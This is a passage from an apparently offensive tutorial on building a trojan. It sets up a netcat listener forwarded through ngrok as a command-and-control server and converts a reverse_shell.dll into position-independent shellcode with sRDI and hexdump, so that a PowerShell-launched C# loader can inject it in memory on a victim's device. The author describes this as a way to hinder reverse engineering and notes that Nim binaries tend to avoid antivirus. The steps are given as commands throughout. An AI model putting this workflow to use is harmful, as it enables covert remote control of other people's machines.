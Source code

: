 This instructs ngrok to forward all traffic to port 4444 on your local machine.
Fire up netcat with the following command:

```
nc -nlvp 4444
```

# Step 3: Modularizing our Trojan
Now that we have a dynamic link library and our c2 server setup in the background, lets convert our malware into a module so that we can reflectively inject it at runtime. For a general understanding of how reflective dll injection works please take a look at [this](https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection). 
There are several methods for executing this advanced technique but before we begin let's reason about the full process we will use to get our trojan to execute on our victim's device. 
First we want to deploy a malicious file to the target that will start a powershell process.  
The powershell process will then remotely load a C# based binary assembly into memory and use reflection to run the assembly. 
The C# assembly will handle actually executing our reverse_shell.dll in memory. 
In order for that last step to happen, our dll has to be accessible to our C# application as a compatible byte array. 
After our C# application has this byte array format of our reverse_shell.dll we will surrender control of the program to the shellcode we injected. 
To convert our dll into a usable byte array format for C# we will use the sRDI tool, clone it from this github repo:

```
git clone https://github.com/monoxgas/sRDI
```

After you have the repository cloned, navigate to the Python directory and copy over your reverse_shell.dll file into that same directory.
Next run the following command to generate a reverse_shell.bin file:

```
python ConvertToShellcode.py reverse_shell.dll
```

So why are we taking this step you ask? Well although we have a dll file if we are going to execute our malicious dll in memory, we need to have it in the format of position independent shellcode, the sRDI tool converts the dll into shellcode for us. Now that we have a binary format of our dll, we can convert it into a byte array format usable in C# by running the following command:

```
hexdump -v -e '1/1 "0x%02x,"' reverse_shell.bin | sed 's/.$//' > reverse_shell.txt
```

The shellcode byte array will be written into the reverse_shell.txt file. You could paste the shellcode in this file directly into your .NET application and your payload should fire when the application starts.
To try to make this a more advanced exploit we will develop the .NET application in such a way that it will load our shellcode into memory at runtime, that way it will be slightly harder for someone to reverse engineer your malware.
You can see that it is very simple to modularize your payloads by following the above process. 
Also consider that this shellcode has not been obfuscated at all, for the time being, we don't need to since Nim binaries are not usually flagged by antivirus solutions.  
The shellcode format generated in our reverse_shell.txt file is also usable in other languages such as Go. 
The final thing I would like to point out is that we have a great opportunity here to utilize some devops practices, this entire workflow is perfect for a CI/CD pipeline.

